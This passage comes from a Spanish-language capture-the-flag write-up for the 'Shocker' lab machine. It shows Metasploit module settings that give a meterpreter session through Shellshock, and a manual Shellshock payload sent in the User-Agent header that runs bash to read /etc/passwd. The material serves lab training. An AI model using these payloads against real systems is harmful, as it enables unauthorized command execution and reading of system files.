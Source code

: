 </p>


```bash
set RHOSTS 10.10.10.56
set TARGETURI http://10.10.10.56/cgi-bin/user.sh
set LHOST tun0
run
```

<p align="center">
    <img src="../../../assets/CTFs/Shocker/20240426143135.png" alt="5" width="100%" height="auto">
</p>

Llenamos los campos necesarios, corremos el módulo y nos otorgará una sesión de **meterpreter** con la que podremos interactuar directamente con el sistema víctima

###### Manual: 

De forma manual podemos mandar la petición con el payload por nuestra cuenta, ya habiendo visto en que consiste la vulnerabilidad y como se explota en otros ejemplos no será muy complicado hacerlo nosotros. Primero intentémoslo mediante **Burpsuite** (tenemos que configurar el proxy para capturar la petición), capturamos la petición que se hace al cargar http://10.10.10.56/cgi-bin/user.sh que es donde se explota la vulnerabilidad, y en una cabecera que podamos modificar sin 'dañar' la petición (como por ejemplo el User-Agent) ingresar nuestro payload malicioso:

```bash
() { :; }; echo; /bin/bash -c 'cat /etc/passwd'
```

<p align="center">
    <img src="../../../assets/CTFs/Shocker/20240426203232.png" alt="6" width="100%" height="auto">
</p>
